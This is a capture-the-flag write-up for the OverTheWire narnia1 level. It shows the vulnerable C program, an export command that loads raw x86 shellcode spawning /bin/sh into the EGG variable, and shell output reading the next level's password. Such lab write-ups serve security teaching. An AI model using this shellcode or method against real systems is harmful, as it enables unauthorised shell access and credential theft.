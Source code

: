 # narnia1
slopey112 - 3/5/19

Taking a look at the binary, the solution is pretty much given.
```
narnia1@narnia:/narnia$ ./narnia1
Give me something to execute at the env-variable EGG
```
It seems we'll have to create an environmental variable named `EGG`, and, per nomenclature, execute shell code. (Haha, get it?)

Taking a look at the source code reaffirms our suspicions.
```c
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```
The code is very simple; provided that `EGG` exists, it executes it. So all we have to do is provide the necessary shell code. That's not difficult.

We'll use our [trusty shell code](http://shell-storm.org/shellcode/files/shellcode-811.php) and make that into an enviromental variable.
```
narnia1@narnia:/narnia$ export EGG=$(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")
```
And when we execute the binary again, we get a root shell.
```
narnia1@narnia:/narnia$ ./narnia1
Trying to execute EGG!
$ cd /etc/narnia_pass
$ ls
narnia0  narnia1  narnia2  narnia3  narnia4  narnia5  narnia6  narnia7	narnia8  narnia9
$ cat narnia2
nairiepecu
```
